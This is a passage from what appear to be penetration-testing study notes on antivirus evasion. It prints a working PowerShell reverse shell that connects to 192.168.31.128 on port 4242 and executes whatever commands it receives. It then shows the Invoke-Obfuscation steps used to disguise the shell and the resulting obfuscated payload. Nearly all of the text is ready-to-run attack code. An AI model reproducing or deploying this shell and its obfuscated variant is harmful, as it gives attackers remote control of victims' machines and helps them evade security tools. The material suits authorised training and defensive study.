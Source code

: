 ```bash
$client = New-Object System.Net.Sockets.TCPClient('192.168.31.128',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

- Back in `Invoke-Obfuscation`

```bash
SET SCRIPTPATH /home/kali/certs/ejpt/AVBypass/shell.ps1
AST
ALL
1
```

![](.gitbook/assets/image-20230424173718594.png)

- Obfuscated code is:

```bash
Set-Variable -Name client -Value (New-Object System.Net.Sockets.TCPClient('192.168.31.128',4242));Set-Variable -Name stream -Value ($client.GetStream());[byte[]]$bytes = 0..65535|%{0};while((Set-Variable -Name i -Value ($stream.Read($bytes, 0, $bytes.Length))) -ne 0){;Set-Variable -Name data -Value ((New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i));Set-Variable -Name sendback -Value (iex $data 2>&1 | Out-String );Set-Variable -Name sendback2 -Value ($sendback + 'PS ' + (pwd).Path + '> ');Set-Variable -Name sendbyte -Value (([text.encoding]::ASCII).GetBytes($sendback2));$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
